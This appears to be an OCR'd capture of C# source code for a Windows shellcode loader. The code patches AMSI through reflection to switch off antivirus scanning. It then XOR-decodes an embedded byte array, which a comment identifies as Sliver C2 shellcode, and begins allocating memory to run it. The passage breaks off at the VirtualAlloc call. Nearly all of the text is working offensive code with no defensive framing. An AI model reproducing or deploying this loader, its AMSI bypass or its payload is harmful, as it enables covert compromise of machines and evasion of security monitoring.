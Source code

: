 ```csharp
        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            //patching AMSI, Bypasses AMSI scanning by forcing it into a failed state.
            Type amsiUtils = Type.GetType("System.Management.Automation.AmsiUtils, System.Management.Automation");
            if (amsiUtils != null)
            {
                FieldInfo amsiInitFailed = amsiUtils.GetField("amsiInitFailed",
                    BindingFlags.NonPublic | BindingFlags.Static);
                    amsiInitFailed.SetValue(null, true); 
            }

            // XOR'ed Sliver Shellcode with 0x5c
            byte[] buf = new byte[] { 0xa0, 0x14, 0xdf, 0xb8, 0xac, 0xb4, 0x90, 0x5c, 0x5c, 0x5c, 0x1d, 0x0d, 0x1d, 0x0c, 0x0e, 0x14, 0x6d, 0x8e, 0x0d, 0x0a, 0x39, 0x14, 0xd7, 0x0e, 0x3c, 0x14, 0xd7, 0x0e, 0x44, 0x14, 0xd7, 0x0e, 0x7c, 0x11, 0x6d, 0x95, 0x14, 0xd7, 0x2e, 0x0c, 0x14, 0x53, 0xeb, 0x16, 0x16, 0x14, 0x6d, 0x9c, 0xf0, 0x60, 0x3d, 0x20, 0x5e, 0x70, 0x7c, 0x1d, 0x9d, 0x95, 0x51, 0x1d, 0x5d, 0x9d, 0xbe, 0xb1, 0x0e, 0x14, 0xd7, 0x0e, 0x7c, 0xd7, 0x1e, 0x60, 0x14, 0x5d, 0x8c, 0x3a, 0xdd, 0x24, 0x44, 0x57, 0x5e, 0x1d, 0x0d, 0x53, 0xd9, 0x2e, 0x5c, 0x5c, 0x5c, 0xd7, 0xdc, 0xd4, 0x5c, 0x5c, 0x5c, 0x14, 0xd9, 0x9c, 0x28, 0x3b, 0x14, 0x5d, 0x8c, 0xd7, 0x14, 0x44, 0x18, 0xd7, 0x1c, 0x7c, 0x15, 0x5d, 0x8c, 0x0c, 0xbf, 0x0a, 0x14, 0xa3, 0x95, 0x11, 0x6d, 0x95, 0x1d, 0xd7, 0x68, 0xd4, 0x14, 0x5d, 0x8a, 0x14, 0x6d, 0x9c, 0xf0, 0x1d, 0x9d, 0x95, 0x51, 0x1d, 0x5d, 0x9d, 0x64, 0xbc, 0x29, 0xad, 0x10, 0x5f, 0x10, 0x78, 0x54, 0x19, 0x65, 0x8d, 0x29, 0x84, 0x04, 0x18, 0xd7, 0x1c, 0x78, 0x15, 0x5d, 0x8c, 0x3a, 0x1d, 0xd7, 0x50, 0x14, 0x18, 0xd7, 0x1c, 0x40, 0x15, 0x5d, 0x8c, 0x1d, 0xd7, 0x58, 0xd4, 0x14, 0x5d, 0x8c, 0x1d, 0x04, 0x1d, 0x04, 0x02, 0x05, 0x06, 0x1d, 0x04, 0x1d, 0x05, 0x1d, 0x06, 0x14, 0xdf, 0xb0, 0x7c, 0x1d, 0x0e, 0xa3, 0xbc, 0x04, 0x1d, 0x05, 0x06, 0x14, 0xd7, 0x4e, 0xb5, 0x17, 0xa3, 0xa3, 0xa3, 0x01, 0x15, 0xe2, 0x2b, 0x2f, 0x6e, 0x03, 0x6f, 0x6e, 0x5c, 0x5c, 0x1d, 0x0a, 0x15, 0xd5, 0xba, 0x14, 0xdd, 0xb0, 0xfc, 0x5d, 0x5c, 0x5c, 0x15, 0xd5, 0xb9, 0x15, 0xe0, 0x5e, 0x5c, 0x4d, 0x07, 0xf0, 0x4a, 0x10, 0xf3, 0x1d, 0x08, 0x15, 0xd5, 0xb8, 0x10, 0xd5, 0xad, 0x1d, 0xe6, 0x10, 0x2b, 0x7a, 0x5b, 0xa3, 0x89, 0x10, 0xd5, 0xb6, 0x34, 0x5d, 0x5d, 0x5c, 0x5c, 0x05, 0x1d, 0xe6, 0x75, 0xdc, 0x37, 0x5c, 0xa3, 0x89, 0x36, 0x56, 0x1d, 0x02, 0x0c, 0x0c, 0x11, 0x6d, 0x95, 0x11, 0x6d, 0x9c, 0x14, 0xa3, 0x9c, 0x14, 0xd5, 0x9e, 0x14, 0xa3, 0x9c, 0x14, 0xd5, 0x9d, 0x1d, 0xe6, 0xb6, 0x53, 0x83, 0xbc, 0xa3, 0x89, 0x14, 0xd5, 0x9b, 0x36, 0x4c, 0x1d, 0x04, 0x10, 0xd5, 0xbe, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0xc5, 0xf9, 0x28, 0x3d, 0xa3, 0x89, 0xd9, 0x9c, 0x28, 0x56, 0x15, 0xa3, 0x92, 0x29, 0xb9, 0xb4, 0xcf, 0x5c, 0x5c, 0x5c, 0x14, 0xdf, 0xb0, 0x4c, 0x14, 0xd5, 0xbe, 0x11, 0x6d, 0x95, 0x36, 0x58, 0x1d, 0x04, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0x5e, 0x85, 0x94, 0x03, 0xa3, 0x89, 0xdf, 0xa4, 0x5c, 0x22, 0x09, 0x14, 0xdf, 0x98, 0x7c, 0x02, 0xd5, 0xaa, 0x36, 0x1c, 0x1d, 0x05, 0x34, 0x5c, 0x4c, 0x5c, 0x5c, 0x1d, 0x04, 0x14, 0xd5, 0xae, 0x14, 0x6d, 0x95, 0x1d, 0xe6, 0x04, 0xf8, 0x0f, 0xb9, 0xa3, 0x89, 0x14, 0xd5, 0x9f, 0x15, 0xd5, 0x9b, 0x11, 0x6d, 0x95, 0x15, 0xd5, 0xac, 0x14, 0xd5, 0x86, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0x5e, 0x85, 0x94, 0x03, 0xa3, 0x89, 0xdf, 0xa4, 0x5c, 0x21, 0x74, 0x04, 0x1d, 0x0b, 0x05, 0x34, 0x5c, 0x1c, 0x5c, 0x5c, 0x1d, 0x04, 0x36, 0x5c, 0x06, 0x1d, 0xe6, 0x57, 0x73, 0x53, 0x6c, 0xa3, 0x89, 0x0b, 0x05, 0x1d, 0xe6, 0x29, 0x32, 0x11, 0x3d, 0xa3, 0x89, 0x15, 0xa3, 0x92, 0xb5, 0x60, 0xa3, 0xa3, 0xa3, 0x14, 0x5d, 0x9f, 0x14, 0x75, 0x9a, 0x14, 0xd9, 0xaa, 0x29, 0xe8, 0x1d, 0xa3, 0xbb, 0x04, 0x36, 0x5c, 0x05, 0xe7, 0xbc, 0x41, 0x76, 0x56, 0x1d, 0xd5, 0x86, 0xa3, 0x89 };

            // Decrypt shellcode
            int i = 0;
            while (i < buf.Length)
            {
                buf[i] = (byte)(buf[i] ^ 0x5c);
                i++;
            }

            // Allocate RW space for shellcode
            IntPtr lpStartAddress = VirtualAlloc(IntPtr.Zero, (UInt32)buf.Length, 0x1000, 0x04);

```
